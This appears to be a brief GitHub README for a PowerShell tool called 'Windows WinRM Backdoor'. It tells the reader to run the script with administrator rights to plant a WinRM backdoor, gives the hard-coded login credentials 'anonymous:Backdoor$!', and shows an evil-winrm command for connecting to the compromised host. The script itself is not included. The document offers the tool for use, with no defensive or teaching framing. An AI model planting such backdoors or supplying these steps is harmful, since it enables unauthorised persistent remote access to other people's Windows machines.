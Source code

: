 <h1>WINDOWS WINRM BACKDOOR</h1>

<ul>
  <li>This script runs backdoor with winrm. To use this script you need admin privilages. So run powershell as Administrator. After that you can login to your backdored system with this creds `anonymous:Backdoor$!`</li>
</ul>

<h1>USAGE:</h1>
<br>

`.\backdoor`

<br>
<h1>LOGIN</h1>

`evil-winrm -i IP -u anonymous -p 'Backdoor$!'`
